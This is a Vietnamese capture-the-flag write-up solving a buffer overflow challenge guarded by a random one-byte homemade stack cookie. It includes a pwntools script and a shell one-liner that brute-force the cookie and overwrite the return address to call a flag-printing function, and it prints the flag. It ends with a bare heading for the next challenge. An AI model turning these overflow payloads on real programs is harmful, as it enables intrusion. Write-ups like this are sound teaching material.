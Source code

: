 
## Bufferoverflow-homemade-cookie-v2

mình đọc file C được:
![image](https://hackmd.io/_uploads/r1iHWXgwT.png)

bài này tương tự bài trước nhưng giá trị của biến i bây giờ không còn cố định và biết trước như ở bài trên  
Biến cookie chỉ được khởi tạo ngẫu nhiên trong khoảng từ 0 -> 255 như vậy nếu ta tràn biến cookie với một giá trị bất kỳ thì xác xuất ta tràn đúng biến cookie ban đầu là 1/256 tỉ lệ này ở mức tỉ lệ “CAO” trong khai thác lỗ hổng nên ta hoàn toàn có thể sử dụng mã khai thác ở bài trước để khai thác tuy nhiên không phải lúc nào ta cũng có thể lấy được FLAG. Không có luật thi (sẽ không bao giờ có đối vs mảng EXPLOIT) ở CTF cấm người chơi sử dụng dịch vụ nhiều lần.

![image](https://hackmd.io/_uploads/S1ZaX7gwT.png)

```python=
#!/usr/bin/python3.7

from pwn import *
context.binary = exe = ELF('./Bufferoverflow-homemade-cookie-v2')
 
i = 0;
while(i>=0 and i<=256):
 p = process(exe.path)

# input()

 payload = b'A'* 16
 payload += p32(i)
 payload += b'A'*12
 payload += p32(exe.sym['cat_flag'])
 p.sendline(payload)
 data = p.recvline()
 if b'KMA' in data:
    break
 

p.interactive()
```

hoặc 
```python=
 while true; do python -c 'print "A"*0x10 + "\x30\x00\x00\x00" + "A"*0xc + "\x7b\x85\x04\x08"' | ./bufferoverflow-homemade-cookie-v2 | grep "KMA"; done
 ```
![image](https://hackmd.io/_uploads/r1juJVlDT.png)

và mình được flag là:
**KMA{dont invent it with your small mind v3rs10n 2}**

## Bufferoverflow-homemade-cookie-v3
mình đọc file C được:
![image](https://hackmd.io/_uploads/HkMTWVeva.png)
